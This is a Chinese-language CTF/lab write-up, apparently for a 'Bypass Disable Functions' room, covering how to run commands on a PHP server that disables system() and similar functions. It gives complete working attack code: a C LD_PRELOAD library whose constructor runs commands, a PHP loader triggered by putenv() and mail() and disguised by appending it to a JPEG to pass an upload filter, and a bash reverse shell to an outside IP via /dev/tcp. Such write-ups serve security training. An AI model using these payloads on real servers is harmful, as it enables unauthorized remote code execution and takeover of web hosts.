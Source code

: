 # Bypass Disable Functions

练习绕过运行操作系统命令或启动进程的禁用危险功能。

---

- 通常应用的措施包括禁用可能执行操作系统命令或启动进程的危险功能。像system（）或shell_exec（）这样的函数通常通过php.ini配置文件中定义的PHP指令来禁用。其他函数，也许不太为人所知的dl（）（它允许您动态加载PHP扩展），可能会被系统管理员忽略并且不会被禁用。入侵测试中的通常做法是列出启用的功能，以防忘记任何功能。

- 最容易实现且不是很普遍的技术之一是滥用 mail（） 和 putenv（） 功能。这种技术并不新鲜，gat3way 在 2008 年就已经向 PHP 报告了它，但它至今仍然有效。通过 putenv（） 函数，我们可以修改环境变量，允许我们将想要的值分配给变量LD_PRELOAD。大致LD_PRELOAD将允许我们在其余库之前预加载 .so 库，这样如果程序使用库的功能（例如 libc.so），它将执行我们库中的函数而不是它应该执行的函数。通过这种方式，我们可以劫持或“钩住”功能，随意修改它们的行为。

---

    ┌──(root🐦kali)-[/home/sugobet]
    └─# nmap -sS 10.10.130.116
    Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-10 10:50 CST
    Nmap scan report for 10.10.130.116
    Host is up (0.30s latency).
    Not shown: 998 closed tcp ports (reset)
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http

web是一个纯文件上传点，只允许上传图片

经过简单测试，并没有后缀限制，它只检查文件头部信息，甚至没有检查mime类型

gobuster扫：

    gobuster dir --url http://10.10.130.116/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt

    /assets               (Status: 301) [Size: 315] [--> http://10.10.130.116/assets/]
    /phpinfo.php          (Status: 200) [Size: 68166]
    /uploads              (Status: 301) [Size: 316] [--> http://10.10.130.116/uploads/]

phpinfo.php可以看到：

    disable_functions:

    exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,

---

阅读 https://github.com/TarlogicSecurity/Chankro 所有代码

我们这里快速构建一个缩水版本，preload.c：

    #include <stdlib.h>
    #include <sys/types.h>
    #include <unistd.h>


    __attribute__ ((__constructor__)) void hack(void) {
        unsetenv("LD_PRELOAD");
        system("whoami > /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads/hack.txt");
    }

编译：

    gcc -shared -fPIC -o ./getshe11.so ./preload.c

建议使用python进行base64编码，使用linux命令你会后悔的

base64：

    python3 -c "import base64;print(base64.b64encode(open('./getshe11.so', 'rb').read()))
"

创建payload.php:

    <?php
        $hook = '<getshe11.so的base64编码>';
        file_put_contents('/var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads/getshe11.so', base64_decode($hook));
        putenv('LD_PRELOAD=/var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads/getshe11.so');

        mail('','','','');
    ?>

寻找一张正常的图片，与该php文件进行拼接:

    cat ./offensivepentesting.jpg ./getshe11.php  >> ./hack.php

上传hack.php并从uploads访问

理论上来讲这样，我们的so文件理应被执行，但是我折腾了很久，也没能reverseshell，so貌似执行出错或失败。

最后即使我完全使用github的那个工具来利用该漏洞，so文件依然执行失败，我不太清楚是什么原因，至少我认为我的操作应该没有什么问题，毕竟也是按照那个工具以及相关的思路来进行的。

---

我又回来了，经过多次尝试过后，我尝试在/tmp创建文件并写入任意内容，通过php的include函数读取该文件，发现是成功的

我不知道为什么刚刚为什么无法创建文件，但至少现在可以，而且还能getshell

让我们重头来过

preload.c

    #include <stdio.h>
    #include <unistd.h>
    #include <stdio.h>

    __attribute__ ((__constructor__)) void hack (void){
        unsetenv("LD_PRELOAD");
        system("echo '#!/bin/bash' > /tmp/fuck.sh");
        system("echo '/bin/bash -i >& /dev/tcp/10.14.39.48/8888 0>&1' >> /tmp/fuck.sh");
        system("sh /tmp/fuck.sh");
        system("bash /tmp/fuck.sh");
        system("zsh /tmp/fuck.sh");
    }

是的，我一口气使用了三种终端去执行fuck.sh，因为我也不确定哪个能用

## 注意：如果你使用刚刚那个github上面的工具去尝试执行shell脚本，那将会失败，因为它的代码编写的不适合我们执行shell脚本：

    system(getenv("CHANKRO"));

    ┌──(root🐦kali)-[/home/sugobet]
    └─# ./cmd.sh 
    zsh: 权限不够: ./cmd.sh
  
    ┌──(root🐦kali)-[/home/sugobet]
    └─# sh ./cmd.sh                              
    root

所以可能需要进行一些修改以达到 “sh/bash/zsh ./cmd.sh”，而不是像执行可执行文件那样 “./cmd.sh”。

gcc构建动态链接库：

    gcc -shared -fPIC -o getshe11.so ./preload.c

可能会弹出一些警告，但都无伤大雅

将getshe11.so进行base64编码，这里我们使用python一句话完成这个操作：

    python3 -c "import base64;print(base64.b64encode(open('./getshe11.so', 'rb').read()))"

创建getshe11.php文件：

    <?php
        $hook = '<getshe11.so的base64 code>';
        file_put_contents('/var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads/getshe11.so', base64_decode($hook));
        putenv('LD_PRELOAD=/var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads/getshe11.so');

        mail('','','','');
        error_log('', 1, '', '');
        
        include('/tmp/fuck.sh');
    ?>

与正常图片拼接：

    cat ./offensivepentesting.jpg ./getshe11.php  > ./hack.php

上传hack.php并且在uploads下打开它，我们提前启动nc监听，就能getshell

## 结束

其实整体并不难，也是比较简单，但是踩了很多坑，然后一直测试一直测试浪费了许多时间，花了半天时间才get到shell
